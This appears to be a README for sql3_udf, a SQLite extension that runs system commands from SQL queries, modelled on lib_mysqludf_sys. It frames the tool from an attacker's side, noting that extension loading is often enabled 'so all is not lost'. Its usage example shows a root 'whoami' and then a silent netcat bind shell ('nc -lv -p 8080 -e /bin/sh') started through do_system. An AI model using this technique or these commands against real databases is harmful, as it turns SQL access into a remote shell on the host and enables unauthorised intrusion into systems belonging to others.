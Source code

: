 sql3_udf
========

Much like lib_mysqludf_sys, this is a UDF (run-time loadable extension in 
sqlite land) library used to execute system commands from SQL queries.
It can be loaded through the SQLite3 interface or using a query:

    sqlite> select load_extension("/tmp/lib_sql3udf_sys.sqlext");
or
    sqlite .load /tmp/sql3_udf.sqlext

Please note that, by default, the load_extension functionality is disabled by 
default.  Many sqlite3 databases, however, do enable it, so all is not lost.  This
can be enabled in source code with the following:

    sqlite3_enable_load_extension(db, 1);

Two functions are exposed through this simple interface:
    do_system()
        -- Executes a system command and returns only the status of that execution.
    do_exec()
        -- Executes a system command and returns all of the resulting output.

Thus:
    $ sqlite3 test.db
    sqlite> .load /tmp/sql3_udf.sqlext
    sqlite> select do_exec('whoami');
    root
    sqlite> select do_system("nc -lv -p 8080 -e /bin/sh &>/dev/null &");
    0
    sqlite>


